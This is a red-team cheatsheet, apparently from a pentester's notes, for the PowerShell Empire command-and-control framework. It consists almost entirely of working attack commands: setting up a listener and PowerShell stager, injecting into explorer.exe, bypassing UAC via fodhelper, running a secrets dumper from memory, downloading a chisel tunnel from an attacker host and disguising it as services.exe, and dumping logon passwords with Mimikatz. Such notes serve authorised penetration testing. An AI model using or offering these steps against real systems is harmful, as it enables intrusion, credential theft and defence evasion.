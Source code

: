 # Empire

* [https://xakep.ru/2020/06/03/powershell-empire/](https://xakep.ru/2020/06/03/powershell-empire/)




## Install

```
$ git clone --recursive https://github.com/BC-SECURITY/Empire.git
$ cd Empire
$ sudo ./setup/install.sh
$ sudo poetry install
```




## Run

```
$ ./ps-empire server [--restip 127.0.0.1]
$ ./ps-empire client
```




## Cheatsheet

Prepare a listener:

```
(Empire) > listeners
(Empire: listeners) > uselistener http
(Empire: listeners/http) > set Name http1
(Empire: listeners/http) > set Host 10.10.13.37
(Empire: listeners/http) > set Port 80
(Empire: listeners/http) > execute
```

Generate a PowerShell stager:

```
(Empire: listeners) > usestager multi/launcher
(Empire: stager/multi/launcher) > set Listener http1
(Empire: stager/multi/launcher) > set OutFile /home/snovvcrash/www/rev.ps1
(Empire: stager/multi/launcher) > execute
```

Re-inject into an interactive process (e.g., `explorer.exe`):

```
(Empire: listeners) > agents
(Empire: agents) > rename LKH7SD3V A1
(Empire: agents) > interact A1
(Empire: A1) > sysinfo
(Empire: A1) > shell Get-Process explorer
(Empire: A1) > psinject exch <EXPLORER_EXE_PID>
```

Bypass UAC to get a high integrity process:

```
(Empire: A1) > shell whoami /priv
(Empire: A1) > usemodule privesc/bypassuac_fodhelper
(Empire: powershell/privesc/bypassuac_fodhelper) > set Listener http1
(Empire: powershell/privesc/bypassuac_fodhelper) > run
```

Execute a PowerShell script from memory (e.g., [`Invoke-SharpSecDump.ps1`](https://github.com/S3cur3Th1sSh1t/PowerSharpPack/blob/master/PowerSharpBinaries/Invoke-SharpSecDump.ps1)):

```
(Empire: A1) > shell whoami /priv
(Empire: A1) > usemodule management/invoke_script
(Empire: powershell/management/invoke_script) > set ScriptPath /home/snovvcrash/tools/dump.ps1
(Empire: powershell/management/invoke_script) > set ScriptCmd Invoke-SharpSecDump -C "-tager=127.0.0.1"
(Empire: powershell/management/invoke_script) > run
```

Start a process in the background (e.g., [chisel](https://github.com/jpillora/chisel) SOCKS proxy):

```
(Empire: A1) > shell IWR http://10.10.13.37:8080/chisel.exe -OutFile C:\Windows\services.exe -UseBasicParsing
(Empire: A1) > shell Start-Process -NoNewWindow -FilePath C:\Windows\services.exe -ArgumentList "client 10.10.13.37:8000 R:socks"
```

Invoke a Mimikatz command:

```
(Empire: A1) > usemodule credentials/mimikatz/command
(Empire: powershell/credentials/mimikatz/command) > set Command '"privilege::debug" "ts::logonpasswords" "exit"'
(Empire: powershell/credentials/mimikatz/command) > run
```




## Customizing Agents

* [https://s3cur3th1ssh1t.github.io/Customizing_C2_Frameworks/](https://s3cur3th1ssh1t.github.io/Customizing_C2_Frameworks/)
